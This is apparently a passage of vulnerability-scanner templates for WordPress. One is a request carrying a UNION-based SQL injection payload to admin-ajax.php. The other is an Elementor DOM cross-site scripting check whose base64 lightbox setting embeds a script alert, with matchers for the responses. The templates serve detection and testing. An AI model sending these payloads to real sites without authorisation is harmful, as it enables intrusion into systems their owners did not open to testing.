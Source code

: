 ```
GET /wp-admin/admin-ajax.php?action=refDetails&requests=%7B%22refUrl%22:%22'%20union%20select%201,1,md5({{num}}),4--%20%22%7D HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. {{md5({{num}})}}

**Type - status**
- status
    1. 200

---
# WordPress Elementor Website Builder \<3.1.4 - Cross-Site Scripting
## Description
- WordPress Elementor Website Builder plugin before 3.1.4 contains a DOM cross-site scripting vulnerability. It does not sanitize or escape user input appended to the DOM via a malicious hash.

- severity - medium
- tags - wordpress,wp-plugin,elementor,wpscan,cve,cve2021,dom,xss
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/elementor/assets/js/frontend.min.js
- {{BaseURL}}/#elementor-action:action=lightbox&settings=eyJ0eXBlIjoibnVsbCIsImh0bWwiOiI8c2NyaXB0PmFsZXJ0KCd4c3MnKTwvc2NyaXB0PiJ9
### Matchers

**Type - regex**
- part - body_1
- regex
    1. elementor[\s-]*v(([0-3]+\.(([0-5]+\.[0-5]+)|[0-4]+\.[0-9]+))|[0-2]+[0-9.]+)

**Type - dsl**
- dsl
    1. compare_versions(version, '> 1.5.0', '\< 3.1.4') && status_code_1 == 200 && status_code_2 == 200
### Extractors

**Type - regex**
- name - version
- group - 1
- regex
    1. elementor[\s-]*v(([0-3]+\.(([0-5]+\.[0-5]+)|[0-4]+\.[0-9]+))|[0-2]+[0-9.]+)
- internal - True
